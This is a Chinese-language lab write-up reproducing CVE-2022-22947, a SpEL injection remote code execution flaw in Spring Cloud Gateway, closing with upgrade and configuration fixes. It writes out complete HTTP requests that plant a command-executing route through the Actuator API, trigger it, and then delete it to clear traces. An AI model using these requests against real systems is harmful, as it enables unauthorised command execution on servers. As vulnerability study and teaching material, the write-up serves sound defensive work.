





# Spring Cloud Gateway远程代码执行(CVE-2022-22947)


### 1.1、漏洞描述

Spring Cloud Gateway是Spring Cloud官方推出的第二代网关框架，取代Zuul网关。网关作为流量的，在微服务系统中有着非常作用，网关常见的功能有路由转发、权限校验、限流控制等作用。

Spring Cloud Gateway是Spring中的一个API网关。其`3.1.0`及`3.0.6`版本（包含）以前存在一处`SpEL表达式注入`漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

### 1.2、漏洞等级

高

### 1.3、影响版本

Spring Cloud Gateway 3.1.x < 3.1.1

Spring Cloud Gateway < 3.0.7

旧的、不受支持的版本也会受到影响

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/spring/CVE-2022-22947

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:{8080}/`即可看到





#### 2、漏洞扫描

#### 3、漏洞验证

访问`/actuator`修改数据包为POST

构造并发送恶意的路由请求

```bash
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

```
id 字段指定新路由的名称，必须全局唯一；
filters
	字段给这条路由指定若干个过滤器。过滤器用于对请求和响应进行修改；
	name 字段指定要添加的过滤器，这里添加了一个 AddResponseHeader 过滤器，用于 gateway 给客户端返回响应之前添加一个响应头；
	args.name 字段指定要添加的响应头；
	args.value 字段指定响应头的值。这里的值是要执行的 SPEL 表达式，用于执行 whoami 命令。注意需要将命令输出结尾的换行符去掉，否则过滤器执行时会抛出异常说「响应头的值不能以 \r 或 \n 结尾」；
	uri 字段指定将客户端请求转发到 http://example.com。
```




刷新网关

```bash
POST /actuator/gateway/refresh HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



触发我们添加的路由，命令执行

```bash
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```




痕迹清理，删除添加的路由

```bash
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: 10.9.75.6:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
```

删除后在刷新一下路由

### 1.6、修复建议

1）3.1.x用户应升级到3.1.1+；

2）3.0.x用户应升级到3.0.7+；

3）如果不需要Actuator功能，可以通过management.endpoint.gateway.enable：false配置将其禁用。